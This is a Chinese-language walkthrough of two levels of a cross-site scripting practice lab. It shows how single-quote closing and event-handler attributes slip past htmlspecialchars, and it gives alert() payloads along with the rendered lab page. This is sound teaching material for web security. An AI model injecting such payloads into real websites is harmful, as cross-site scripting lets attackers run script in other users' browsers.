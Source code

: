 首先,我们无法绕过`htmlspecialchars` 去立刻执行js代码

但是我们可以不绕过`htmlspecialchars` 而直接通过标签属性去触发一个js行为

比如这里根据特定的输入框标签去触发一个事件,该事件就是一个弹窗

事件属性 `onmouseover` 当鼠标移动到输入框的时候,触发的事件

```php
<input name=keyword  value='".htmlspecialchars($str)."'>
<input name=keyword  value='' onmouseover='alert(1)'> <''>
```

其中我们也需要去做一些标签的闭合,和空标签的构造

页面代码

```html
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level4.php?keyword=try harder!"; 
}
</script>
<title>欢迎来到level3</title>
</head>
<body>
<h1 align=center>欢迎来到level3</h1>
<h2 align=center>没有找到和' onmouseover='alert(1)相关的结果.</h2><center>
<form action=level3.php method=GET>
<input name=keyword  value='' onmouseover='alert(1)'>
<input type=submit name=submit value=搜索 />
</form>
</center><center><img src=level3.png></center>
<h3 align=center>payload的长度:23</h3></body>
</html>
```

# level4

标签闭合+ 事件

```php
" onclick="window.alert()
" oninput="alert('redqx')
其它:
" onmouseover='alert(1)'' 
" onfocus=javascript:alert('xss')//
```

代码摘要
